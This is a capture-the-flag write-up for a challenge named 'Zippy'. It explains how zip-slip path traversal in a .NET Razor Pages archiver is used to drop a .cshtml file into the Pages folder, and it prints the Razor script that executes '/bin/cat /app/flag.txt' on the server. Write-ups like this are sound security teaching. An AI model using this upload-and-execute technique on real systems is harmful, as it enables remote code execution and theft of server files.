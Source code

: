 # Zippy
Need a quick solution for archiving your business files? Try Zippy today, the Zip Archiver built for the small to medium business!

NOTE: This challenge may take up to two minutes or so to completely start and load in your browser. Please wait.

## Solution
After logging into the Zippy interface, I explored the available pages, Upload, Browse, Logs, and About. The Upload page allowed me to upload files, while the Browse page enabled directory browsing with input for directory paths. The Logs page offered backend activity logs, which proved invaluable throughout the challenge.

As I examined the logs, I noticed a line stating that file extraction was performed "without path traversal checks" This was a big clue: it strongly suggested that the challenge would allow directory traversal via crafted paths in filenames. Additionally, the About page revealed that the backend was built on .NET using Razor Pages, which could accept `.cshtml` files, executable Razor markup that would enable me to create a payload to execute server-side commands.

Normally, Razer pages do not offer runtime compilation, according to the website, this one does! After doing some research, the normal file structure would look something like this:

![alt text](structure.png)

All executable `.cshtml` files are typically located within the Pages directory, meaning that for any `.cshtml` script to run successfully, it would need to be uploaded into this specific folder. Consequently, I realized I'd need to use path traversal to place my payload in this folder, as `.cshtml` scripts wouldn't execute if stored in any other directory.

After some tial and error, I found the correct path to be `..\..\..\Pages`. Because Zippy was extracting files from a ZIP archive, the traversal path needed to be specified precisely in the folder structure within the ZIP file. With this in mind, I created a ZIP file that contained a `..\..\..\Pages` folder and included a simple test script inside to confirm it was working, and it was.

Finally, the last step was to craft a cshtml-script to get the flag. The script I (chatGPT) came up with was the following:

```cshtml
@page
@{
    var output = "";
    try
    {
        var psi = new System.Diagnostics.ProcessStartInfo();
        psi.FileName = "/bin/cat";
        psi.Arguments = "/app/flag.txt";
        psi.RedirectStandardOutput = true;
        psi.RedirectStandardError = true;
        psi.UseShellExecute = false;
        var process = System.Diagnostics.Process.Start(psi);
        output = process.StandardOutput.ReadToEnd();
        output += process.StandardError.ReadToEnd();
        process.WaitForExit();
    }
    catch (Exception ex)
    {
        output = ex.ToString();
    }
}
<pre>@output</pre>
```

This script can be saved as `[anyname].cshtml` inside the `..\..\..\Pages`-folder. Then, to get the flag, I simply had to visit `/[anyname]` to get the flag.